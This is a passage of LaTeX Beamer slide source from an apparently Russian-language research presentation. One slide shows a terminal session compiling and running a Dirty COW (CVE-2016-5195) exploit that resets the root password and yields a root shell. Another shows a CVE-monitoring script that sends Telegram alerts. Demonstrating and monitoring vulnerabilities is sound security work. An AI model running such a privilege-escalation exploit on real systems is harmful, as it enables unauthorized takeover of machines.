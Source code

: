 \begin{frame}
\frametitle{\insertsection}

\begin{figure}
    \center
    \texttt{[image: cwpp]}
\end{figure}
\end{frame}


\section{Экспериментальные исследования}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{CVE-2016-5195}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow)
}}

\vspace{\baselineskip}

{\small \texttt{\$ g++ dcow.cpp -std=c++11 -pthread -lutil -o dcow \\
\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}


\begin{frame}
\frametitle{\insertsection}
\framesubtitle{https://github.com/Amet13/vulncontrol}

{\scriptsize \texttt{\$ ./vulncontrol.py −d 2017−02−18 −m 5 -t \$TOKEN \$ID \\
CVE−2017−6074 9.3 http://www.cvedetails.com/cve/CVE−2017−6074/ \\
CVE−2017−6001 7.6 http://www.cvedetails.com/cve/CVE−2017−6001/ \\
CVE−2017−5986 7.1 http://www.cvedetails.com/cve/CVE−2017−5986/ \\
Telegram alert sent
}}

\begin{figure}
    \center
    \texttt{[image: tscreen]}
\end{figure}
\end{frame}


